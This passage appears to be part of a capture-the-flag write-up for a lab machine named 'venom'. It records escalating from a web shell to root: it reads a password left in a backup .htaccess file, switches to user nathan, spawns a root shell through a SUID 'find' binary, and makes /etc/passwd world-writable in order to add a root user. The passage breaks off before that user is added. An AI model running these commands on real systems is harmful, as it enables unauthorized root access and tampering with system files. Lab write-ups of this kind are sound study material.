 at /var/www/html/subrion/backup there is .htaccess file which has a passwd in it using this passwd on user nathan we leverage to nathan's account 

```
www-data@venom:/var/www/html/subrion/backup$ cat .htaccess
cat .htaccess
allow from all
You_will_be_happy_now :)
FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a
www-data@venom:/var/www/html/subrion/backup$ cd /home
cd /home
www-data@venom:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root      root      4096 May 21 17:00 .
drwxr-xr-x 24 root      root      4096 May 20 10:08 ..
drwxr-xr-x 16 hostinger hostinger 4096 May 22 13:58 hostinger
drwxr-x--- 18 nathan    nathan    4096 Jul 10 16:12 nathan
www-data@venom:/home$ su nathan
su nathan
Password: FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a
```

this binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor

```
nathan@venom:/home$ ls -al /usr/bin/find
ls -al /usr/bin/find
-rwsr-s--- 1 root nathan 238080 Nov  5  2017 /usr/bin/find
nathan@venom:/home$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root

```


here we are not complete shell , just eid is root 

```
# id
uid=1000(nathan) gid=1000(nathan) euid=0(root) groups=1000(nathan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare
```

lets get full root shell

there are many methods , lets trick the easy method by change the /etc/passwd file to worldwritable and adding a root user

```
chmod 0477 /etc/passwd
root@venom:~# ls -al /etc/passwd
-r--rwxrwx 1 root root 2708 Jul 10 20:37 /etc/passwd
```
now need to add user /etc/passwd
